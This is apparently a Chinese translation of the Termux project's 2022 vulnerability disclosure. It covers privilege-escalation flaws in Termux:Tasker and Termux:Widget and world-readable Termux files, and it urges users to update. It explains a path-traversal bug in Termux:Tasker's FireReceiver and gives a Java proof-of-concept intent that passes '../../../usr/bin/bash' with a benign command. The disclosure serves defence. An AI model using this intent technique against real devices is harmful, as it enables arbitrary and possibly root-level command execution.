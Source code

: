 ```yaml
---
title:  "Termux应用程序漏洞披露"
page_ref: /posts/general/2022/02/15/termux-apps-vulnerability-disclosures.html
---
```


这是 `termux-app`、`termux-tasker` 和 `termux-widget` 的漏洞报告。

本报告发布于 `2022-02-15`， 距 离 `termux-app` [`v0.118.0`](https://github.com/termux/termux-app/releases/tag/v0.118.0)  发布还剩`30` 天， 距离谷歌应用商店构建版本的程序被官方地使用添加在 [`termux-tools` `v0.135`](https://github.com/termux/termux-packages/pull/7493) 中的终端横幅以及 [添加带有弃用信息的 `termux-app` README](https://github.com/termux/termux-app/commit/94e01d68) 弃用大约有 `150` 天。 这应该已经为使用谷歌应用商店版本 (最新版本 `v0.101`) 的用户留出足够的时间来切换到在 F-Droid 或 Github 发布的 `Termux` 主程序以及其插件应用，并为其他  `<= v0.117` 版本的 Termux 应用程序用户提供足够的时间更新为 `>= v0.118.0`版本。

**建议所有使用旧版本的用户立即更新到[`Termux` `v0.118.0`](https://github.com/termux/termux-app/releases/tag/v0.118.0)、 [`Termux:Tasker` `v0.5`](https://github.com/termux/termux-tasker/releases/tag/v0.5) 以及 [`Termux:Widget` `v0.13.0`](https://github.com/termux/termux-widget/releases/tag/v0.13.0)**

## 目录

- [1. Termux:Tasker 权限提升漏洞](#termuxtasker-)
- [2. Termux:Widget 权限提升漏洞](#termuxwidget-)
- [3. Termux 文件全局可读](#termux-)
##



## 1. Termux:Tasker 权限提升漏洞

此漏洞允许其他程序在 `termux` 上下文执行 **任意指令** 。如果 `termux` 被其他应用赋予了 root 权限，甚至可以允许在 `root` 权限的环境中执行。

本漏洞首先存在于 [`v0.1`](https://github.com/termux/termux-tasker/releases/tag/v0.1) (`2016-12-26`) 版本， `<= v0.4` 的任意版本都会受到该漏洞的影响。本漏洞被修复于 [`v0.5`](https://github.com/termux/termux-tasker/releases/tag/v0.5) (`2020-12-07`).

该漏洞源于 Termux:Tasker 应用程序的 [`FireReceiver.java`](https://github.com/termux/termux-tasker/blob/v0.4/app/src/main/java/com/termux/tasker/FireReceiver.java#L50) 文件中，该文件中没有对可执行文件的完整规范路径进行检查并按提供的原样执行。实际上， `Termux:Tasker` 应用程序仅允许执行 `~/.termux/tasker` 目录中的脚本，以防止其他应用程序在 termux 上下文中执行任意命令，但没有对可执行文件进行规范路径检查。其他应用程序可以发送 `../../../usr/bin/bash` 作为 `executable` 参数、 `-c "some termux context command"` 作为 `args` 参数以在 `termux` 环境中执行命令，或者发送 `.. /../../usr/bin/su` 作为 `executable` 参数、 `-c "some root context command"` 作为 `args` 参数以在 `root` 权限的环境中执行命令

注意，不一定是 Termux 插件的应用程序将 Intent 发送到 `FireReceiver`，任何应用程序都可以使用 Java 代码发送 Intent。 [`Termux:Tasker Exploit`](/assets/posts/globals/general/2022-02-15-termux-apps-vulnerability-disclosures/Termux_Tasker_Exploit.tsk.xml) 给出了如何使用 `Tasker` 的 Java Action 来模拟一个普通的应用程序发送 Intent。

### 1. POC

```java
Intent intent = new Intent("com.twofortyfouram.locale.intent.action.FIRE_SETTING");
intent.setClassName("com.termux.tasker", "com.termux.tasker.FireReceiver");

Bundle bundle = new Bundle();
bundle.putString("com.termux.tasker.extra.EXECUTABLE", "../../../usr/bin/bash");
bundle.putString("com.termux.execute.arguments", "-c \"echo -n 'I am '; whoami; echo 'creating exploit-file'; touch exploit-file; echo 'finding exploit-file'; find . -name exploit-file 2>/dev/null; sleep 5;\"");
bundle.putBoolean("com.termux.tasker.extra.TERMINAL", true);
bundle.putInt("com.termux.tasker.extra.VERSION_CODE", 4);

intent.putExtra("com.twofortyfouram.locale.intent.extra.BUNDLE", bundle);
context.sendBroadcast(intent);
```
